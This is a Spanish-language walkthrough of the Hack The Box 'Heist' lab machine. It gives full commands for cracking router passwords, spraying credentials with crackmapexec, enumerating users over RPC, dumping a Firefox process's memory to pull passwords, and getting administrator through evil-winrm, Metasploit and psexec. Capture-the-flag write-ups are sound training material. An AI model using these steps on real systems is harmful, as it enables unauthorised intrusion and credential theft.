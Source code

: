 ## HTB-Heist
- Maquina: **Windows**
- Level: **Easy**
- IP: **10.10.10.149**

## Herramientas a utilizar:
- nmap
- jhon = John the Ripper
-   https://packetlife.net/toolbox/type7/
-   https://github.com/Hackplayers/evil-winrm
-   https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- crackmapexec
- smbmap
- sysinternals
- metaexploit
- psexec.p

```
nmap -sC -sV -o scan_heist.txt 10.10.10.149
```
Encontraremos los siguiente puertos abierto.

|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|80/tcp|open| http|Microsoft IIS httpd 10.0
|135/tcp|open|msrpc| Microsoft Windows RPC
|445/tcp|open|microsoft-ds?|

Primero iniciaremos a enumerar por el puerto 80
```
http://10.10.10.149/
```
Aqui tenemos un login, pero si nos fijamos bien, tenemos un acceso de invitado, podemos llegar a
```
http://10.10.10.149/attachments/config.txt
```
Este archivo contiene la configuracion de un router en el cual veremos varios users y password.

|1| secret 5 |$1$pdQG$o8nrSzsGXeaduXrjlvKc91
|----|----|----|
|2| username rout3r password 7 |0242114B0E143F015F5D1E161713 
|3| username admin privilege 15 password 7 |02375012182C1A1D751618034F36415408

Con el primero intentaremos Crakear el password creamos un archivo `hashespass.txt` y en el colocamos: `enable_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91` Ahora utilizamos **John the Ripper** y el Direccionario **rockyou.txt**
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashespass.txt
```
Nuestro resultado sera: **stealth1agent**    (enable_secret)

Con los demas iremos al siguiente Web: https://packetlife.net/toolbox/type7/
El resultado sera:

|user| password|
|---|---|
|rout3r| $uperP@ssword
|admin |Q4)sJu\Y8qz*A3?d

Colocamos todos los usuario en **user.txt** y los password en **pass.txt**

Utilizaremos `crackmapexec` con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```

De los resultado de crackmapexec tenemos que:
SUPPORTDESK [+] **SupportDesk\hazard:stealth1agent**


Ahora utilizaremos **smbmap** para ver que tipo de privilegios tenemos con **hazard**
```
smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: heist.htb
	Disk                                      	Permissions
	----                                      	-----------
	ADMIN$                                    	NO ACCESS
	C$                                        	NO ACCESS
	IPC$                                      	READ ONLY
```

Notamos que solo tenemos acceso **read only** remote **IPC$**
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> lookupnames hazard
```
Nuestro output sera: 
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
```
Ahora tenemos el siguiente output
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

Con el SID intentaremos listar los usuarios.
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
```
Si todo va bien tenemos una output: S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)

Por lo que ahora haremos una funcion para ver todo los posible SID y removiendo los unknown.
```
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Con esto veremos 2 usuarios **Chase** y **Jason** los agregaremos a `user.txt`
Utilizaremos `crackmapexec` otra vez con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```
Y veremos que el usuario **Chase:`Q4)sJu\Y8qz*A3?d`**

Utilizaremos **Evil-WinRM**, pero en mi caso particular lo utilice de la siguiente manera
con `gem install winrm winrm-fs colorize stringio`
```
ruby evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -p 'Q4)sJu\Y8qz*A3?d'
```

Ahora tenemos acceso a heist con el usuario **chase**
Enumeracion y encontramos que en 
```
C:\inetpub\wwwroot> 
```
Existe dos archivos `error.php` y `login.php` 
```
En login.php vemos:
hash: 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
user: admin@support.htb
```
Colocamos el hash en `hash_admin.txt` y utilizamos John otra vez
```
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hash_admin.txt
```
y esto no funciono 🤷‍♂️

Aqui solo puedo decir que despues de Mucho buscar en internet he intentar y intentar

Volvi **Heist** con la session de **Chase** y me puse a buscar en los procesos

C:\Program Files> 
Ejecutamos **Get-Process**

Dentro de todos los proceso me llamo la antencion que **Firefox** se estaba ejecutando.

|408|31|17404|63308|2.17|2768|1| firefox|
|--|--|--|--|--|--|--|--|
|390 | 32|    43244|      75072|      57.30|   **4728**|   1| firefox
|358 |     27|    16364|      37608|       0.58|   6808|   1| firefox
|1151|      70|   132720|     204480|      28.55|   6924|   1| firefox
|343 |     20|     9976|      37300|       0.33|   7052|   1| firefox
    
Por lo que descargue `systeminternal` desde https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
```
unzip sysinternals-suite
```
Volvemos acceder a heist con el usuario chase y subimos el `procdump64.exe`
```
upload procdump64.exe
.\procdump64.exe -accepteula
.\procdump64.exe -ma 4728 <4728 es el id_proc firefox que encontramos>.
```
Esto genera un archivo **firefox.exe_`fechayhora`.dmp** el cual deberemos descargar.
En nuestro caso fue:
```
download firefox.exe_2102209_003234.dmp
```
Mientras se esta descargado con otra shell vamos hacer la siguiente busqueda.
```
strings firefox.exe_210209_003234.dmp |grep admin@support.htb
```

Y con esto veremos password del **admin@support.htb** actualizamos los archivo user.txt con **admin@support.htb** y el **pass.txt** con las password que encontramos volvemos a probar con `crackmapexec`
```
crackmapexec smb 10.10.10.149 -u user -p pass
```

Si por alguna razon no tienes el resultado utilizando el proceso de Firefox, puede utilizar el siguiente mentodo.
```
msfconsole
use auxiliary/scanner/winrm/winrm_login
set pass_file /home/r0ok1e/Downloads/htb/machine/heist/pass.txt
set user_file /home/r0ok1e/Downloads/htb/machine/heist/user.txt
set rhost 10.10.10.149
run
```
Y aqui veremos que funciona user/pass chase y el del administrator

Para poder acceder con esta nuevas credenciales utilizaremos `PSEXEC`.
```
locate psexec.p
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

Listo, solo es ir a Desktop del administrator y tenemos root.txt y nuestra flag
